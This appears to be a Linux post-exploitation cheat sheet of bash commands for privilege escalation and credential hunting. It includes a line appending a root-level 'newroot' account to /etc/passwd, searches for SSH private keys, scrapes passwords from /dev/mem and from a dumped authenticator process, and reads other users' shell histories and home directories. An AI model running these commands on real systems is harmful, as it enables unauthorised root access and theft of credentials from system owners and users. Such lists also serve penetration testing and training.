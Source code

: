 ```bash

# Check sudoers
cat /etc/sudoers
ls -l /etc/sudoers.d
cat /etc/sudoers.d/README
cat /etc/sudoers.d/alice

# Check if the files are writable
echo newroot:x:0:0:root:/root:/bin/bash >> /etc/passwd
ls -l /etc/shadow /etc/sudoers

# check if an account has recently used sudo
ls -l /home/server-management/.sudo_as_admin_successful
```

# Users and Credentials
```bash
# find ssh keys
find / -name authorized_keys 2> /dev/null
find / -iname '*id_rsa*' 2> /dev/null

# get in-memory passwords
strings /dev/mem -n10 | grep -i PASS

# see if authenticator is running then dump it
ps -ef | grep -v grep | grep "authenticator"
./dump-memory.sh 2027
strings *.dump | grep -i password

# check current paths
echo $PATH

# See if you can access another user's home directory
ls -lRta /home
find /home/smeagol -type f
cd /home/anotheruser
ls -lrta
cat .bash_history
ls -lrta .ssh
ls -lRta /home/anotheruser

# Check history files
cd ~
history | grep -i pass
history
cat ~/.zsh_history
cat ~/.python_history

# search for user passwords
grep -ir pass ~/

# Check last logins
last | head

# Check user permissions
id
find / -user smeagol 2> /dev/null | egrep -v '^/(proc|dev|sys|run)'
find / -group smeagol 2> /dev/null | egrep -v '^/(proc|dev|sys|run)'
sudo -l

# Check user shell environment
env
```